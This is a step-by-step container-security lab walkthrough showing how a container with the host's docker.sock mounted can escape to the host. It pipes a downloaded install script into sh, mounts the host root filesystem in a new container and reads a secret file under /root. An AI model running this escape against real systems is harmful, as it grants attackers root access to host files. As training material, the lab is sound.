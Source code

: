 ## Docker Daemon Direct Access

###### A malicious user who gains access to a container where the `docker.sock` of host machine is exposed, can gain access to the host machine.

##### Step 1:

* Open Terminal

	![](img/Open-Terminal.png)

##### Step 2:

*  **cd** into  `Labs/3.0.0-Container-Attacks/3.2.0`

    ```commandline
    cd Labs/3.0.0-Container-Attacks/3.2.0
    ```
##### Step 3:

* Run `docker run -d -v /var/run/docker.sock:/var/run/docker.sock --name vul_flask abhaybhargav/vul_flask` to start a docker container.

    ```commandline
    root@we45:~/Labs/3.0.0-Container-Attacks/3.2.0# docker run -d -v /var/run/docker.sock:/var/run/docker.sock --name vul_flask abhaybhargav/vul_flask
    1681e86d567eaa2b7344cff0535819fffe8f3a786b4b768be3c95d9b40a4e71d
    ```
      
    ![](img/docker-run.png)
 
##### Step 4:   

* Run `docker ps` to view, all running containers.

    ```commandline
    root@we45:~/Labs/3.0.0-Container-Attacks/3.2.0# docker ps
    CONTAINER ID        IMAGE                    COMMAND             CREATED              STATUS              PORTS               NAMES
    1681e86d567e        abhaybhargav/vul_flask   "python app.py"     About a minute ago   Up About a minute   5050/tcp            vul_flask/tcp            vul_flask
    ```
     
    ![](img/docker-ps.png)
    
##### Step 5:   

* Run `docker exec -it vul_flask bash` to exec into a running container.

    ```commandline
    root@we45:~/Labs/3.0.0-Container-Attacks/3.2.0# docker exec -it vul_flask bash
    root@1681e86d567e:/apps# 
    ```
    ![](img/docker-exec.png)

##### Step 6:

* Install docker-engine by running `apt-get update && apt-get install wget -y && wget -qO- https://get.docker.com | sh`.

    ```commandline
    root@1681e86d567e:/apps# apt-get update && apt-get install wget -y && wget -qO- https://get.docker.com | sh
    Get:1 http://security.debian.org jessie/updates InRelease [44.9 kB]
    Ign http://deb.debian.org jessie InRelease          
    Get:2 http://deb.debian.org jessie-updates InRelease [145 kB]
    Get:3 http://deb.debian.org jessie Release.gpg [2420 B]                               
    Get:4 http://deb.debian.org jessie Release [148 kB]              
    Get:5 http://deb.debian.org jessie-updates/main amd64 Packages [23.0 kB]          
    Get:6 http://deb.debian.org jessie/main amd64 Packages [9098 kB]       
    Get:7 http://security.debian.org jessie/updates/main amd64 Packages [663 kB]
    Fetched 10.1 MB in 21s (480 kB/s)                                                                                                                            
    Reading package lists... Done
    Reading package lists... Done
    Building dependency tree       
    Reading state information... Done
    The following packages will be upgraded:
      wget
    1 upgraded, 0 newly installed, 0 to remove and 66 not upgraded.
    Need to get 496 kB of archives.
    After this operation, 362 kB disk space will be freed.
    Get:1 http://deb.debian.org/debian/ jessie/main wget amd64 1.16-1+deb8u5 [496 kB]
    Fetched 496 kB in 1s (288 kB/s)
    debconf: delaying package configuration, since apt-utils is not installed
    (Reading database ... 21636 files and directories currently installed.)
    Preparing to unpack .../wget_1.16-1+deb8u5_amd64.deb ...
    Unpacking wget (1.16-1+deb8u5) over (1.16-1+deb8u4) ...
    Setting up wget (1.16-1+deb8u5) ...
    # Executing docker install script, commit: 36b78b2
    + sh -c apt-get update -qq >/dev/null
    + sh -c apt-get install -y -qq apt-transport-https ca-certificates curl >/dev/null
    debconf: delaying package configuration, since apt-utils is not installed
    + sh -c curl -fsSL "https://download.docker.com/linux/debian/gpg" | apt-key add -qq - >/dev/null
    + sh -c echo "deb [arch=amd64] https://download.docker.com/linux/debian jessie edge" > /etc/apt/sources.list.d/docker.list
    + [ debian = debian ]
    + [ jessie = wheezy ]
    + sh -c apt-get update -qq >/dev/null
    + sh -c apt-get install -y -qq --no-install-recommends docker-ce >/dev/null
    debconf: delaying package configuration, since apt-utils is not installed
    + sh -c docker version
    Client:
     Version:           18.06.1-ce
     API version:       1.38
     Go version:        go1.10.3
     Git commit:        e68fc7a
     Built:             Tue Aug 21 17:25:03 2018
     OS/Arch:           linux/amd64
     Experimental:      false
    
    Server:
     Engine:
      Version:          18.06.1-ce
      API version:      1.38 (minimum version 1.12)
      Go version:       go1.10.3
      Git commit:       e68fc7a
      Built:            Tue Aug 21 17:23:24 2018
      OS/Arch:          linux/amd64
      Experimental:     false
    If you would like to use Docker as a non-root user, you should now consider
    adding your user to the "docker" group with something like:
    
      sudo usermod -aG docker your-user
    
    Remember that you will have to log out and back in for this to take effect!
    
    WARNING: Adding a user to the "docker" group will grant the ability to run
             containers which can be used to obtain root privileges on the
             docker host.
             Refer to https://docs.docker.com/engine/security/security/#docker-daemon-attack-surface
             for more information.
    ```

##### Step 7:

*  Once docker is installed, run `docker run -ti -v /:/hostFS/ ubuntu:16.04 /bin/bash`

    ```commandline
    root@1681e86d567e:/apps# docker run -ti -v /:/hostFS/ ubuntu:16.04 /bin/bash
    root@b412be8326b5:/#
    ```

##### Step 8:

* Run `cd /hostFS/root/` to access the toot directory.

    ```commandline
    root@b412be8326b5:/# cd /hostFS/root/    
    ```
    
##### Step 9:  

* Run `ls` to check the secret.txt file inside a container.

    ```commandline
    root@b412be8326b5:/hostFS/root# ls
    secret.txt
    ``` 
    
##### Step 10:

* Run `cat secret.txt` to view the content of the file.

```commandline
root@b412be8326b5:/hostFS/root# cat secret.txt 
secret
``` 
**Note:** Malicious user now has complete access to the root Filesystem of the host machine.

##### Step 11:

* Run `exit` to exit from the Malicious container.

    ```commandline
    root@b412be8326b5:/hostFS/root# exit
    exit
    ```

##### Step 12:

* Run `exit` to exit from the container.

    ```commandline
    root@1681e86d567e:/apps# exit
    exit
    ```

##### Step 13:  
 
* Run `docker stop vul_flask` to stop the running container.

    ```commandline
    root@we45:~/Labs/3.0.0-Container-Attacks/3.2.0# docker stop vul_flask
    vul_flask
    ```
        
    ![](img/docker-stop.png)  
    
##### Step 14:   

* Run `docker rm vul_flask` to remove stopped container.

    ```commandline
    root@we45:~/Labs/3.0.0-Container-Attacks/3.2.0# docker rm vul_flask
    vul_flask
    ```
    ![](img/docker-rm.png)
